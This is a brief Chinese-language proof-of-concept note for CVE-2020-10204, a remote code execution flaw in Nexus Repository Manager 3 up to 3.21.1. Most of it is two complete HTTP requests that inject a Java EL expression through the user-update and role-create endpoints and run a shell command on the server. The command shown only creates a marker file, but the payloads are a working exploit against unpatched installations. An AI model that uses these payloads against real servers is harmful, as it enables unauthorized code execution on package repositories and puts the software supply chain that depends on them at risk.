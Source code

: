 ## CVE-2020-10204 Nexus Repository Manager 3 RCE

**影响版本**：

- <= 3.21.1 Affected Versions: All previous Nexus Repository Manager 3.x OSS/Pro versions up to and including 3.21.1

- Fixed in Version: Nexus Repository Manager OSS/Pro version 3.21.2

**前提:**  登陆任何一个账号

**>> 调用更新 role 接口**

1. 利用更新用户接口：

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```

2. 利用创建角色接口:

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 294
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=da418706-f4e4-468e-93ac-de9c46802f11
Connection: close

{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"],"roles":[]}],"type":"rpc","tid":89}
```

> [@threedr3am](https://github.com/threedr3am/learnjavabug/tree/master/nexus/CVE-2020-10204)

